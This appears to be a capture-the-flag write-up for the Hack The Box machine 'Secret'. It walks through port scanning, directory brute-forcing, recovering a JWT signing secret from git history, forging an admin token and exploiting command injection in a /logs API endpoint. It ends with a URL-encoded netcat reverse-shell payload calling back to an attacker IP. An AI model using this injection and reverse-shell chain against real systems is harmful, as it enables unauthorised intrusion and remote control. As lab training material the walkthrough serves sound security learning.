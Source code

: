 ```yaml
---
title: Secret - easy HTB
date: 2023-12-10 10:11:53 +/-0800
categories: [writeup, hackthebox]
writeup: :title
permalink: /secret
tags: [Web]     # TAG names should always be lowercase
---
```


![secret](assets/secret/secret.png)

## **Scanning :**

Enumerate open ports with nmap : `nmap 10.10.11.120 -sC -sV -T4`

```bash
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:af:61:44:10:89:b9:53:f0:80:3f:d7:19:b1:e2:9c (RSA)
|   256 95:ed:65:8d:cd:08:2b:55:dd:17:51:31:1e:3e:18:12 (ECDSA)
|_  256 33:7b:c1:71:d3:33:0f:92:4e:83:5a:1f:52:02:93:5e (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: DUMB Docs
3000/tcp open  http    Node.js (Express middleware)
|_http-title: DUMB Docs
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

All ports : `nmap 10.10.11.120 -sV -T4 -p-`

```bash
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
3000/tcp open  http    Node.js (Express middleware)
```

## **Enumeration:**

Before walk on the app run gobuster BF : `gobuster dir -u http://10.10.11.120/ -w /usr/share/wordlists/dirb/big.txt`

```bash
/api                  (Status: 200) [Size: 93]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/docs                 (Status: 200) [Size: 20720]
/download             (Status: 301) [Size: 183] [--> /download/]
```

So we have on web app : 

![webapp](assets/secret/webapp.png)

you can download the source code of the here : 

![Untitled](assets/secret/download-archive.png)

on the file you can find a .git project use `git log` command to enumerate every commit. 

In the first We can leaked the Token secret to sign JWT, this is in the first commit : 

![Untitled](assets/secret/commit.png)

## **Exploit Web app:**

in the source code we can see that it is mentioned a user "theadmin" if we log on we will be able to have access to the private account: 

```java
router.get('/priv', verifytoken, (req, res) => {
   // res.send(req.user)

    const userinfo = { name: req.user }

    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        res.json({
            creds:{
                role:"admin", 
                username:"theadmin",
                desc : "welcome back admin,"
            }
        })
    }
    else{
        res.json({
            role: {
                role: "you are normal user",
                desc: userinfo.name.name
            }
        })
    }
})
```

For this we must create a new jwt that we will be able to falsify because we have the private key of signature. 

First launch request to get JWT :  

```java
curl -X POST -d '{"name": "tototo", "email": "[toto@toto.com](mailto:toto@toto.com)", "password": "Pass123!"}' -H "Content-Type: application/json" http://secret.htb:3000/api/user/register
```

Log your self on the app and get your first JWT :

```java
curl -X POST -d ' {"email": "[toto@toto.com](mailto:toto@toto.com)","password": "Pass123!"}' -H "Content-Type: application/json" http://secret.htb:3000/api/user/login 
```

Modifie the new JWT to “theadmin” do not forget the signed with the key find rather :

![jwt](assets/secret/jwt-theadmin.png)

Send last request to Gain admin acces :

```java
curl -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NTcyMjQxNTg5N2E5NjA0NTk2YzcxYmMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRvdG9AdG90by5jb20iLCJpYXQiOjE3MDE5NzkxNjd9.rh26y3V_J_IDvfaY5CXWFli5qsPMfGsrDPkA2-2iWgE" http://secret.htb:3000/api/priv
```

But the code tells us that there is a function in another API page (/logs). view that we are theadmin we can interact with:

```java
curl -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NTcyMGE0MjVlZTkxMTA0NjFkM2RmMTkiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRvdG9AdG90by5jb20iLCJpYXQiOjE3MDE5NzI2Nzh9.91ODv0rlBAsFOO9FsayzUiRCzBW7YvGB3wSDFZafWyw" http://secret.htb:3000/api/logs
```

the app uses the `exec` function to execute a specific Git command. The Git command executed is git log --oneline followed by the file name extracted from the query (${file}). The result of this Git command is retrieved in the output variable.

```java
router.get('/logs', verifytoken, (req, res) => {
    const file = req.query.file;
    const userinfo = { name: req.user }
    const name = userinfo.name.name;
    
    if (name == 'theadmin'){
        const getLogs = `git log --oneline ${file}`;
        exec(getLogs, (err , output) =>{
            if(err){
                res.status(500).send(err);
                return
            }
            res.json(output);
        })
    }
```

we can try to integrate with the file parameter : 

```java
curl -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NTcyMGE0MjVlZTkxMTA0NjFkM2RmMTkiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRvdG9AdG90by5jb20iLCJpYXQiOjE3MDE5NzI2Nzh9.91ODv0rlBAsFOO9FsayzUiRCzBW7YvGB3wSDFZafWyw" http://secret.htb:3000/api/logs?file=test

#output
{"killed":false,"code":128,"signal":null,"cmd":"git log --oneline test"}
```

Let’s try to make a basic command injection in this parameter:

```bash
curl -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NTcyMGE0MjVlZTkxMTA0NjFkM2RmMTkiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRvdG9AdG90by5jb20iLCJpYXQiOjE3MDE5NzI2Nzh9.91ODv0rlBAsFOO9FsayzUiRCzBW7YvGB3wSDFZafWyw" 'http://secret.htb:3000/api/logs?file=|id' 

#output
"uid=1000(dasith) gid=1000(dasith) groups=1000(dasith)\n"
```

BiMMGO we have succed inject commande now lets try to gain reverse shell, so run your listener and run request:
```bash
# set up listener
pwncat-cs :1234

# reverse shell
curl -X GET -H "auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NTcyMjQxNTg5N2E5NjA0NTk2YzcxYmMiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InRvdG9AdG90by5jb20iLCJpYXQiOjE3MDE5NzkxNjd9.rh26y3V_J_IDvfaY5CXWFli5qsPMfGsrDPkA2-2iWgE" 'http://secret.htb:3000/api/logs?file=|rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.16.5%201234%20%3E%2Ftmp%2Ff'
```

